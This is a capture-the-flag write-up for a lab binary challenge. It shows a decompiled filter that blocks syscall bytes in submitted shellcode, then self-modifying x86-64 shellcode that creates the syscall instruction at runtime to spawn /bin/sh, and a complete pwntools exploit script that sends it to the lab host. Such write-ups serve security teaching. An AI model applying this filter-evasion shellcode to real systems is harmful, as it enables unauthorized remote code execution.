 ## Description

	OH! So what if you can execute whatever you want! Do you think you can get a shell? ! Brrrrrr!

##### We are provided a binary that has little functionality and requests for us to send a spell and it will execute it. Opening this binary in Ghidra the following function is interesting.

```C
undefined8 forbidden(long buf)

{
  ulong i;
  
  i = 0;
  while( true ) {
    if (0x7e < i) {
      return 0;
    }
    if ((*(char *)(i + buf) == '\x0f') && (*(char *)(buf + i + 1) == '\x05')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(i + buf) == '\x0f') && (*(char *)(buf + i + 1) == '4')) {
      puts("Forbidden spell detected!");
      return 1;
    }
    if ((*(char *)(i + buf) == -0x33) && (*(char *)(buf + i + 1) == -0x80)) break;
    i = i + 1;
  }
  puts("Forbidden spell detected!");
  return 1;
}
```

##### This code is checks if our shellcode contains any form of syscall and if it doesn't our shellcode will be executed. We can bypass this restriction by writing our shellcode to self modify and create the syscall bytes dynamically.

![RCE](assets/flag_screenshot.jpg)
#### Shellcode:

```
lea rdi, [rip+binsh]
xor rsi, rsi                  # Set up registers for a
xor rdx, rdx                  # execve("/bin/sh",0,0); call
mov rax, 59

inc BYTE PTR [rip]            # Dynamically create syscall
.byte 0x0e
.byte 0x05

binsh:
    .string "/bin/sh"
```

#### Full Exploit

```python
from pwn import *

context.arch = 'amd64'
context.binary = binary = ELF('./TryExecMe2', checksec=False)

shellcode = asm('''
        lea rdi, [rip+binsh]
        xor rsi, rsi
        xor rdx, rdx
        mov rax, 59

        inc BYTE PTR [rip]
        .byte 0x0e
        .byte 0x05

        binsh:
        .string "/bin/sh"
        ''')


#p = process()
p = remote('10.10.102.129', 5002)

p.sendline(shellcode)

p.recvrepeat(1)
p.interactive()
```
